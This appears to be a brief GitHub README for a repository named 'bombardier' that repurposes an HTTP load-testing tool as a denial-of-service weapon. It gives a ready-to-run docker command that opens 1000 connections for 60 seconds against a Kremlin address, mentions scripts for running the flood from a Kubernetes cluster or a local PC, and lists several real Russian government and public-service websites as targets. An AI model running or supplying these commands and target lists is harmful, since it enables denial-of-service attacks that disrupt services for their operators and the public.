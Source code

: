 # bombardier
If you have kubertnetes cluster `run_all_kuber.sh`
<br>
From local PC `run_all_docker.sh`
<br>
or easiest way 

docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.rbru
<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
